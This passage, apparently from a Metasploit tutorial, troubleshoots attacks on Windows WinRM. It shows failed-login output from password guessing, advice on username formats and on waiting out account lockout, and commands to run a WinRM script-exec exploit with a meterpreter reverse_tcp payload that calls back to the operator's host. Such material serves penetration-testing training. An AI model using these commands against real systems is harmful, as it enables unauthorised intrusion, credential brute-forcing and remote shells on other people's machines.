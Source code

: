 **Common Causes:**
- WinRM service not actually running
- Firewall blocking connections
- Wrong port (try 5986 for HTTPS)
- Network connectivity issues

---

### **❌ Problem 2: Authentication Always Fails**

**What You See:**
```bash
[*] 192.168.1.100:5985 - LOGIN FAILED: administrator:password (Incorrect: )
[*] 192.168.1.100:5985 - LOGIN FAILED: admin:admin (Incorrect: )
```

**How to Fix:**
```bash
# Step 1: Check if Basic authentication is supported
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS target_ip
exploit
# Look for "Basic protocol supported"

# Step 2: Try different username formats
set USERNAME administrator
set USERNAME .\administrator
set USERNAME DOMAIN\administrator
# Different Windows username formats

# Step 3: Check for account lockout
# Wait 5-10 minutes between attempts if account lockout is enabled
```

**Common Causes:**
- Account lockout policy enabled
- Wrong username format
- Passwords with special characters
- Domain authentication required

---

### **❌ Problem 3: Meterpreter Shell Fails**

**What You See:**
```bash
[*] Sending stage (175686 bytes) to 192.168.1.100
[*] Meterpreter session 1 opened
[*] Session 1 closed. Reason: Died
```

**How to Fix:**
```bash
# Step 1: Force VBS execution method
use exploit/windows/winrm/winrm_script_exec
set FORCE_VBS true
set RHOSTS target_ip
set USERNAME valid_user
set PASSWORD valid_pass
exploit

# Step 2: Try different payload
set payload windows/meterpreter/reverse_tcp
set LHOST your_ip
set LPORT 4444
exploit

```